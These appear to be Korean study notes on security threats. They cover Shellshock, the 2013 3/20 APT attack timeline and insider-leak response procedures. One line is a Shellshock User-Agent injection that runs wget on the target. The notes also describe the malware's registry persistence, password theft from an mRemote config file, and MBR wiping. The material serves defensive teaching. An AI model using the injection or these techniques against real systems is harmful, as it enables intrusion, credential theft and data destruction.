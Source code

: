 # 보안 위협 정보 수집

## 보안 위협 이해

### 애플리케이션 취약점

2014년에 발생할 셸 쇼크(CVE-2014-6271, CVE-2014-7169) 취약점에 대해 알아보자.

2014년 9월 사용된 공격 방식은 bash 환경 변수로 저장되는 헤더 항목에 공격 구문을 삽입해 취약한 시스템을 공격하는 방식이었다.

```bash
telnet [ip] 80
GET /cgi-bin/test-cgi
...
User-Agent: (){:;}; wget -O /tmp/tmp # wget 명령을 이용해 다운로드한 파일을 tmp 디렉터리에 tmp 파일명으로 저장한다
```

대부분의 해킹 공격은 취약한 시스템을 공격하는 걸로 끝나지 않고, 자동화된 공격을 통해 취약한 시스템 접근을 확보한 후에 경유 시스템으로 많이 사용된다.

사례를 살펴보면

* 11/4: IDC 서버 이상 발견
  11/3 12:00부터 외부로 불생된 SSH 사전식 대응 공격 확인

* 11/4: 원인 분석 수행(침해사고 분석)
  BashShell 취약점 공격 확인
  악성코드 유입: http:// ... /bbs/skin/zero_vote/cpan_root

* 분석 결과 요약
  11/01: Bash shell 취약점 공격, 악성코드 설치
  11/03: 외부로 SSH 무작위 사전식 대입 공격
  11/04: 사고 인지 후 시스템 분석

많은 경우 관리 허점을 이용하며, 아직도 2006년 발표된 제로보드 취약점이 사용되고 있다.

### 지능형 지속 공격

2013년 3월 20일 국내 언론사 몇 곳의 업무 관련 시스템들이 동시 다발적으로 파괴되는 사태가 발생핬다. 이로 인해 실제로 방송이 중단되기도 했다.

* 2010년 이후 발생된 주요 사이버 공격 사례

  11/3/4 : 청와대, 금융 기관, 네이버 대상 DDoS 공격
  11/4/12 : 농협 전산망 마비
  13/3/20 : 주요 언론사 및 금융기관 전산망 동시 장애
  13/6/25 : 청와대 홈페이지 변조, 언론사 및 정부 전산센터 공격
  14/12/15 : 한국수자력발전 내부 정보 유출 공개

지능형 지속 공격은 처음 공격에서 최종 목표를 실행하기까지 최소 6개월 이상 관리자나 사용자 몰래 활동한다.

2015년 미국의 FBI 수배자 명단에 중국의 61398 부대 장교가 올라간 사건이 있었다. 이 장교들의 실명과 부대 명칭은 외국계 보안 업체를 통해 실체가 밝혀지기 시작했고 MANDIANT APT 1 보고서를 통해 APT 기법을 사용하는 해커 그룹의 특징과 실체를 구체적으로 밝혀냈다.

3/20 사태로 돌아가자. 공격 당시 공격자는 이미 확보했던 정보를 이용해 자동화된 스크립트 형태로 시스템 파괴 명령을 자동으로 실행시켰다. 방화벽 로그와 침해 시스템의 시스템 로그, 침입탐지 시스템 로그 등 사건에 연관된 모든 보안 로그를 분석했고, 일련의 추적을 통해 공격자의 타임 테이블을 구성했다.

공격 특징은 사용자 대역, 사무실 대역에 대한 악성코드 감염 / 감염된 내부 시스템을 경유해 서버 하드 디스크 파괴이다.

타임 테이블은

* 사전 준비
  웹쉘 업로드(2012/03/22, 2012/06/20) : 공격 대상 서버에 웹쉘 업로드, 파일 탈취 및 SSH 통신
  애플리케이션 공격(2012/9/4) : PHP 취약점을 이용한 원격 명령 실행
* 성공
  정보 유출(2012/10/13) : 공격 대상 서버에 웹쉘 업로드, 소스 압축 후 유출
  악성코드 배포(2012/10/18) : 공격 대상 서버에 악성코드 유포 링크 삽입
  악성코드 감염(2013/02/08) : 이미지 파일(bd.gif)를 이용해 악성코드 설치
  원격 접근(2013/03/03 00:54:21) : 데이터센터(IDC) 서버 접근
* 확산
  원격 접근 : (03/19 AM 2~4) 단일 소스 IP에서 다수 3389, AM 4~5 다수 SSH
  악성코드 감염 : (03/20 03:53:30) crw.exe 파일 동시 감염(10대 이상)
* 파괴
  2013/03/20 14시 전후 시스템 OS 부팅 영역 손상

공격자는 수년 전부터 다양한 방면으로 공격을 시도했다. 서버를 대상으로 App 취약점윌 이용해 반복적으로 웹쉘 설치 시도, 이후 내부 시스템에 대한 정보(네트워크, App, 사용자 접속 정보)를 꾸준히 수집했다.
때로 웹 서버에 악성코드를 삽입해 일반 사용자 및 내부 사용자에게 악성코드를 감염시키기도 했다.
공격받은 시스템의 복구/차단 과정을 반복적으로 관찰해 가장 효율적인(짧은 시간에 가장 많은 경로로 접근 가능한) 경로를 파악했다.
13/3월 사용자들이 많은 사무실 PC에 대해 공격을 시도해 시스템 관리자 PC가 악성코드에 감염됬고, 관리자 시스템에서 서버 접근 정보(IP, ID, PW)를 수집해 공격을 감행했다.

* 활동 내역
  * 악성코드 감염
    `Crw.exe`는 AV 프로그램에서 진단하지 못하는 타겟 맞춤형 악성코드이다.
    (MD5, SHA-1, Size(Byte)값)

    해당 악성코드는 시스템에 서비스로 등록되 자동 실행된다.
    [HKLM\SYSTEM\CurrentControlSet\Services\xmlprov Defenser]
    ImagePath=%SystemRoot%\System32/svchost.exe -k netsvcs

  * 정보 수집(원격 접속)
    특정 경로의 환경 설정 파일 정보 획득, 문자열 추출을 통해 root 패스워드 확보
    [%appdata%/Felix_Deimel/mRemote/confCons.xml]

  * 시스템 파괴
    최대 10개까지 물리 디스크(\\PHYSICALDRIVE0~9)을 열어 물리 디스크의 MBR, VBR을 PRINCPES 문자열로 반복 기록, 손상
    /kernel,/usr,/etc,/home 폴더를 차례로 rm 명령어를 이용해 삭제

다음 유형은 내부자에 의해 발생될 수 있는 기업의 내부 위협 시나리오다.

### 내부 통제

대형 통신사 대리점에서 내부 정보 조회 프로그램을 이용해 대규모 정보 유출 사건이 일어났다. 이 사건은 정상적인 조회를 가장한 정보 유출 사건으로, 뉴스를 통해 많이 보도됬다.

IT 관리 부서는 외부에서 발생하는 위협을 차단, 대응해야 하며, 내부에서 발생되는 권한 위반, 정책 위반 행위에 대해서도 모니터링하고 대응해야 한다.

* 퇴직자에 의한 내부 자료 유출, 프로젝트 수행 시 발생되는 고객 DB 정보 접근 제어 등 다양한 시나리오가 있다.
  실제 어떤 위협이 발생될지 모르는 상황에서는 위협 대응을 위해 많은 인적 자원, 시스템 자원을 사용하고 있다.

다양한 기업 IT 환경에서 좀 더 효율적인 IT 자산 운영을 위해 필요한 가이드에 대해 내부적/체계적으로 관리할 필요가 잇다.

샘플 시나리오는

* 애플리케이션 통신을 통한 문서 정보 통신

* DB 관련 파일 전송 통신

이고, 이 위협 시나리오가 일어났을 때 어떤 상황에 해당할 수 있는지 상황을 다음 표에 정의한다.

* 애플리케이션 통신을 통한 문서 정보 통신
  단순 시도인지?
  통신이 실제로 성공했는지
* DB 관련 파일 전송 통신
  단순 시도인지?
  통신이 실제로 성공했는지
  유출이 된 것인지

상황이 정의됬다면 상황에 따라 필요한 조치, 즉 액션 플랜을 구분할 수 있다.

* 애플리케이션 통신을 통한 문서 정보 통신
  단순 시도인지? : 선보고 후조치
  통신이 실제로 성공했는지 : 선조치 후보고
* DB 관련 파일 전송 통신
  단순 시도인지? : 선보고 후조치
  통신이 실제로 성공했는지 : 선조치 후보고
  유출이 된 것인지 : 선조치 후보고, 내부 상황 전파

각각 시나리오에 대한 대응 체계를 수립해 내부에서 정보 유출이 발생하거나 심각한 상황일 때 좀 더 일사 분란하게 상황을 정의하고 대응해 나갈수 있게 내부 지침을 만들 수 있다.

정의된 해당 지침 문서를 업무에 적용하려면 다음과 같은 프로세스로 도식화할 수 있다.

|관제 영역|보고|파트너|
|-------------------|
|탐지-검증-대응|대응 보고|예외 처리 절차|
|의심스러운 활동 탐지, 보안 사고 여부 판단, 위험/위협 여부 확인|(취약성 없을 시) 침해 시도 대응, (취약성 있을 시)공격 영향 범위 정의\,보고서 분류 : 위협 분석 보고서, 등급 분류: 위협 등급 정의|보안 위협, 모니터링, 반복 분석(일간/주간/월간), False Positive, False Negative, 예외 처리 승인 및 반영

기업과 조직에서는 다양한 보안 업무 목적에 따라 다양한 솔루션을 사용하고 있다. 대부분의 보안 업무가 보안 솔루션에서 발생되는 이벤트를 시작으로 이뤄진다.

업무 목적에 따라 어떤 분석 솔루션을 이용해야 할지 살펴보자.

## 침입 분석 솔루션

가트너는 2013년 보고서에서 위협 방어 스타일 5가지를 정의했다. 엔드포인트엣 네트워크까지 위협을 방어하는 방법을 정의한 것인데, 그 중 네트워크를 기반으로 한 위협 방어 방법을 살펴볼 것이다.

## 패킷 정보 수집

